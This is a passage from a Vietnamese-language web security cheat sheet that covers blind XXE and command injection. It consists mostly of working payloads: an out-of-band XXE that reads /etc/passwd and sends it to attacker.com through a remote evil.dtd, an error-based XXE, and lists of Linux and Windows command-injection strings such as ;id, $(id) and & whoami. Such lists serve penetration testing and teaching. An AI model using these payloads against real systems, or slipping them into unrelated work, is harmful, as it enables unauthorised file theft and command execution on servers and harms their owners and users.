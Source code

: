 ### Blind XXE attacks:

```xml
# Out-of-band XXE (cần máy chủ bên ngoài)
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
%dtd;
]>
<root>&send;</root>

# evil.dtd chứa
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;
```

### Error-based XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
]>
<root>&error;</root>
```

## 3.6. Command Injection

Command Injection cho phép kẻ tấn công thực thi các lệnh hệ thống trên server hosting ứng dụng web.

### Basic command injection payloads:

```
# Linux commands
;id
|id
`id`
$(id)
&id

# Windows commands
& whoami
| whoami
%0Awhoami

# Blind command injection (time-based)
& ping -c 10 127.0.0.1
| timeout 10
```
